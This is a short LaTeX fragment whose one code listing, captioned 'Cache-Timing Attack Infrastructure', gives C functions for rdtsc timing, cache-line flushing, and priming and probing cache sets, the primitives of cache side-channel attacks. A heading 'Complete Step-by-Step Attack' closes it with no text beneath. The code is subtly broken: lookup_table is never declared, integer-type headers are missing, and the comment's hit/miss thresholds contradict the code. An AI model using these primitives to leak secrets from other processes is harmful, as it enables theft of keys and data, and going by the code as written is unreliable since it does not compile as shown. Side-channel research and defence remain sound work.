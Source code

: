 \documentclass[11pt,a4paper]{article}
\theoremstyle{definition}
\begin{document}
\begin{lstlisting}[caption={Cache-Timing Attack Infrastructure}]
#include <time.h>
#include <stdio.h>
#include <x86intrin.h>

// High-precision timing measurement
uint64_t measure_access_time(void *addr) {
    uint64_t start, end;
    volatile uint32_t dummy;
    
    // Serializing instructions to prevent reordering
    _mm_mfence();
    start = __rdtsc();
    
    // Access the memory location
    dummy = *(volatile uint32_t*)addr;
    
    _mm_mfence(); 
    end = __rdtsc();
    
    return end - start;
}

// Cache line flush (x86 CLFLUSH instruction)
void flush_cache_line(void *addr) {
    _mm_clflush(addr);
    _mm_mfence();
}

// Prime cache set with attacker data
void prime_cache_set(int set_index) {
    // Fill cache set with known data
    for (int way = 0; way < 8; way++) {  // 8-way associative
        // Access addresses that map to same cache set
        volatile uint32_t dummy = *(volatile uint32_t*)(
            (uint8_t*)&lookup_table[0] + set_index * 64 + way * 4096
        );
    }
}

// Probe cache set to detect evictions
int probe_cache_set(int set_index) {
    uint64_t timing = measure_access_time(
        (uint8_t*)&lookup_table[0] + set_index * 64
    );
    
    // Threshold: < 100 cycles = cache hit, > 200 cycles = cache miss
    return (timing < 150) ? 1 : 0;  // 1 = hit, 0 = miss
}
\end{lstlisting}

\subsubsection{Complete Step-by-Step Attack}
\end{document}
